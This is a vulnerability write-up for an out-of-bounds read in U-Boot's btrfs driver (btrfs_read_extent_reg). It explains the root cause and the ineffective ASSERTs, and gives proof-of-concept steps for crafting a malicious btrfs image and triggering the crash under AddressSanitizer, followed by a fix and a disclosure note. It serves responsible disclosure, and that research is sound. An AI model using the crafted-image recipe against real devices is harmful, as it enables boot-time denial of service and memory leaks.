

# U-Boot btrfs Out-of-Bounds Read (`btrfs_read_extent_reg`)

**Tested against U-Boot commit:** `6741b0dfb41`

An out-of-bounds read in U-Boot's btrfs filesystem driver, reachable from an
untrusted btrfs image. Found by source review and confirmed with a working
AddressSanitizer reproducer on a sandbox build.

> **Defensive / research use only.** This repository documents a vulnerability
> found in U-Boot's open-source code and provides a proof-of-concept used to
> confirm it on a local test build, for responsible disclosure to the U-Boot
> maintainers. The crafted image is a test artifact that makes a sanitizer fire
> on an out-of-bounds read; it is not a weapon and targets no third-party system.

## Repository Contents

| File | Description |
|------|-------------|
| `README.md` | This document (technical writeup). |
| `make_btrfs_oob_poc.py` | Builds the crafted btrfs image (offset corruption + crc32c fix-up). |
| `assets/asan_crash.png` | AddressSanitizer output from the reproducer. |

## Summary

The U-Boot btrfs filesystem driver contains an out-of-bounds read in
`btrfs_read_extent_reg()` (`fs/btrfs/inode.c`). When reading a **compressed**
file extent, the driver uses the `file_extent_offset` field taken directly from
the on-disk extent item as an offset into a heap buffer, without validating it
against the buffer's size. A crafted btrfs image with a large
`file_extent_offset` causes `memcpy()` to read far beyond the end of the
allocated decompression buffer.

Because this is a bootloader, the usual runtime memory protections (KASAN,
ASLR, MMU-enforced isolation in later boot stages) are not present. The out-of-
bounds data is copied into the destination buffer, i.e. into the "contents" of
the file being read, which makes this an information-leak primitive; depending
on memory layout it can also cause an immediate crash (denial of service during
boot).

- **Component:** `fs/btrfs/inode.c`, function `btrfs_read_extent_reg()`
- **Class:** Out-of-bounds read (CWE-125)
- **Trigger:** Reading a file from a malicious btrfs image with a compressed
  extent whose `file_extent_offset` is larger than the extent's `ram_bytes`
- **Impact:** Information disclosure and/or denial of service in the bootloader,
  from untrusted storage; relevant to any device that reads a btrfs filesystem
  from removable or otherwise attacker-influenced media
- **Attacker input:** An untrusted btrfs image (SD card, USB, tampered
  partition)

## Affected Code

```c
/* fs/btrfs/inode.c, btrfs_read_extent_reg() -- compressed extent path */

csize = btrfs_file_extent_disk_num_bytes(leaf, fi);
dsize = btrfs_file_extent_ram_bytes(leaf, fi);      /* from image */
...
dbuf = malloc_cache_aligned(dsize);                 /* buffer sized by dsize */
...
ret = btrfs_decompress(btrfs_file_extent_compression(leaf, fi), cbuf,
                       csize, dbuf, dsize);
...
memcpy(dest,
       dbuf + btrfs_file_extent_offset(leaf, fi) + offset - key.offset,
       len);                                        /* <-- OOB read */
```

`dbuf` is `dsize` (`ram_bytes`) bytes long. The source pointer of the `memcpy`
is `dbuf + file_extent_offset + offset - key.offset`. Both `file_extent_offset`
and `key.offset` come from the on-disk image and are attacker-controlled. There
is no check that `file_extent_offset + (offset - key.offset) + len <= dsize`.

## Why the Existing Guard Does Not Help

Earlier in the same function there are two `ASSERT()` statements:

```c
ASSERT(IS_ALIGNED(offset, fs_info->sectorsize) &&
       IS_ALIGNED(len, fs_info->sectorsize));
ASSERT(offset >= key.offset &&
       offset + len <= key.offset + extent_num_bytes);
```

These do not prevent the bug, for two independent reasons:

1. **Compiled out in production.** In U-Boot, `ASSERT()` (via `fs/btrfs/compat.h`,
   `#define ASSERT(c) assert(c)`) maps to `assert()`, which is defined in
   `include/log.h` as:

   ```c
   #define assert(x) \
       ({ if (!(x) && _DEBUG) \
           __assert_fail(#x, __FILE__, __LINE__, __func__); })
   ```

   With `_DEBUG == 0` (the default for production builds), the condition
   `(!(x) && _DEBUG)` is always false and the compiler removes the check
   entirely. On real devices these assertions do not exist.

2. **They do not check the right value.** Even when enabled, the asserts bound
   `offset`, `len`, and `extent_num_bytes` relative to `key.offset`. They never
   compare `file_extent_offset` against `ram_bytes` (the `dbuf` size), which is
   the relationship that actually matters for the `memcpy`.

Additionally, U-Boot does **not** import btrfs's semantic tree-checker. Its
`btrfs_check_leaf()` (`fs/btrfs/ctree.c`) validates only the structural layout
of a leaf (item count, item bounds, key ordering) — not the semantic contents
of a `btrfs_file_extent_item`. So `file_extent_offset` is never sanity-checked
at leaf-load time either.

## Root Cause

`file_extent_offset` is a value read from an untrusted on-disk structure and is
used to compute a memory read address without being validated against the size
of the buffer it indexes. The invariant
`file_extent_offset + num_bytes <= ram_bytes` holds for well-formed images by
construction, but it is a property of the *format*, not something the code
enforces. A malicious image simply violates it.

## Proof of Concept

The PoC builds a valid btrfs image containing one file with a compressed extent,
then overwrites that extent's `file_extent_offset` with `0x10000000` (256 MiB)
while the decompression buffer is only `ram_bytes = 131072` (128 KiB). Reading
the file drives the `memcpy` to read ~256 MiB past the buffer.

### 1. Build a clean base image

Single-profile metadata is used so there is only one metadata copy to patch, and
the file is large and compressible enough to be stored as a compressed extent.

```bash
dd if=/dev/zero of=btrfs_base.img bs=1M count=128
mkfs.btrfs -f -m single -d single btrfs_base.img
sudo mount -o loop,compress=zlib btrfs_base.img /mnt
sudo python3 -c "open('/mnt/testfile','w').write('A'*1048576)"
sync ; sudo umount /mnt
```

### 2. Inspect the layout

```bash
sudo btrfs inspect-internal dump-tree btrfs_base.img | grep -A4 EXTENT_DATA
```

Note the first extent's `disk_bytenr` and the offset of the metadata leaf that
contains the extent items.

### 3. Craft the malicious image

```bash
python3 make_btrfs_oob_poc.py --disk-bytenr 13631488 --leaf 5488640
```

(Adjust the values to match your `dump-tree` output.)

### 4. Build U-Boot (sandbox) with AddressSanitizer

```bash
git clone https://github.com/u-boot/u-boot.git u-boot-btrfs
cd u-boot-btrfs
make sandbox_defconfig
./scripts/config --enable  CONFIG_ASAN
./scripts/config --enable  CONFIG_FS_BTRFS
./scripts/config --disable CONFIG_EFI_LOADER   # avoids unrelated build deps
make olddefconfig
make -j"$(nproc)" NO_SDL=1
```

### 5. Trigger

```bash
./u-boot -d arch/sandbox/dts/test.dtb
```

```
=> host bind 0 /path/to/btrfs_poc.img
=> load host 0 0x1000000 testfile
```

### Observed result

AddressSanitizer reports a `READ` memory access fault inside `memcpy`, called
from `btrfs_read_extent_reg` at the vulnerable line, on a stock build (no debug
instrumentation):



```
==...==ERROR: AddressSanitizer: SEGV on unknown address 0x000028c617c0
The signal is caused by a READ memory access.
    #0 memcpy lib/string.c:593
    #1 btrfs_read_extent_reg fs/btrfs/inode.c:514
    #2 btrfs_file_read   fs/btrfs/inode.c:751
    #3 btrfs_read        fs/btrfs/btrfs.c:227
    #4 _fs_read          fs/fs.c:628
    #5 do_load           fs/fs.c:847
    ...
```

The read faults inside `memcpy`, called from `btrfs_read_extent_reg`, with the
crafted `file_extent_offset` value in effect (`file_extent_offset = 268435456`,
`dsize = 131072`).

## Impact

- **Information disclosure.** For out-of-bounds offsets that land on mapped
  memory, the bytes read past `dbuf` are copied into `dest` — the file contents
  returned to whatever consumed the read. In a boot flow this can leak
  bootloader memory into a loaded artifact.
- **Denial of service.** For offsets that land on unmapped memory (as in the PoC),
  the read faults and the boot process crashes.
- **Context.** U-Boot runs before the OS, at high privilege, without the runtime
  memory-safety mitigations of a mature kernel. The input is an untrusted btrfs
  image, which is realistic for devices that boot from or mount removable or
  attacker-influenced storage.

## Suggested Fix

Validate `file_extent_offset` (together with the read window) against the
decompressed buffer size before the copy, and make the check unconditional
(not an `assert`). For example, before the `memcpy` in the compressed path:

```c
u64 src_off = btrfs_file_extent_offset(leaf, fi) + offset - key.offset;

if (offset < key.offset ||
    src_off > dsize ||
    (u64)src_off + len > dsize) {
    ret = -EUCLEAN;
    goto out;
}

memcpy(dest, dbuf + src_off, len);
```

More broadly, consider validating `btrfs_file_extent_item` fields
(`ram_bytes`, `offset`, `num_bytes`) at leaf-load time, mirroring the semantic
checks performed by the Linux kernel's btrfs tree-checker, so that all
downstream consumers can rely on sane values.

## Disclosure

This issue was found by source review of U-Boot's public code and confirmed on a
local sandbox build with AddressSanitizer, for the purpose of responsible
disclosure to the U-Boot maintainers. Report it via the U-Boot security process
(`u-boot@lists.denx.de`, and the security contact listed in the U-Boot tree)
with this document and the PoC attached. Please allow the maintainers time to
respond and prepare a fix before any public discussion.

## Notes and Caveats

- Static analysis established that the code does not validate
  `file_extent_offset`; the ASan crash confirms the out-of-bounds read
  dynamically, giving a working reproducer.
- The PoC demonstrates the DoS/crash form directly. The information-leak form
  follows from the same primitive (out-of-bounds bytes reaching `dest`), but its
  exploitability depends on memory layout and on how the loaded data is
  subsequently used.
- Exact line numbers (`inode.c:514`, `751`) correspond to the tested commit and
  may differ across versions; the logic is unchanged wherever the compressed-
  extent `memcpy` uses `btrfs_file_extent_offset` without a size check.
